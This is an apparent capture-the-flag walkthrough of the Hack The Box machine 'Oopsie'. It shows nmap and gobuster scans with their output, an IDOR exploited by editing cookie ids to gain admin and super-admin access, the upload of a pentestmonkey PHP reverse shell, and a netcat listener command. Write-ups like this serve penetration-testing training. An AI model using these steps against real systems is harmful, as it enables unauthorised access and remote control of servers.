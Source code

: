 ```yaml
---
title: Oppsie - A HackTheBox machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```


# Oopsie - A Hack The Box machine


```bash
nmap -sC -sV $ip -Pn
```

```
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61e43fd41ee2b2f10d3ced36283667c7 (RSA)
|   256 241da417d4e32a9c905c30588f60778d (ECDSA)
|_  256 78030eb4a1afe5c2f98d29053e29c9f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Open browser. From scripts called in home page you extract this path:

```
<script src="/cdn-cgi/login/script.js"></script>
```

Then you are in a login page that provides a way to login as a guest. 

When logged in, and being a guest pay attention to cookies:


![cookies and users](img/oopsie1.png)

Now, in browser change id 2 to id 1 to see if data from other user is exposed.

![user exposure](img/oopsie2.png)

It is. Change the value of the cookies in the browser to be admin.

![now we are admin](img/oopsie3.png)

Upload a php reverse shell. I usually use the [pentesmonkey one](pentesmonkey.md).

Now I use gobuster to enum possible locations for the upload:

```bash
gobuster dir -u http://10.129.95.191 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  -t 20
```

```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.191
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.129.95.191/images/]
/themes               (Status: 301) [Size: 315] [--> http://10.129.95.191/themes/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.95.191/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.95.191/js/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.95.191/fonts/]
Progress: 87567 / 87665 (99.89%)
===============================================================
==============================================================
```

Nice, but being user admin I can not get into http://10.129.95.191/uploads/.

Is there any other user with more permissions? I will use BurpSuite Intruder to enumerate possible users based on object serialization (id). This  would be the endpoint: http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=30

User id 30 is super admin. With this I update my cookies and now I'm able to access http://10.129.95.191/uploads/pentesmonkey.php. Before that:

```bash
nc -lnvp 1234
```


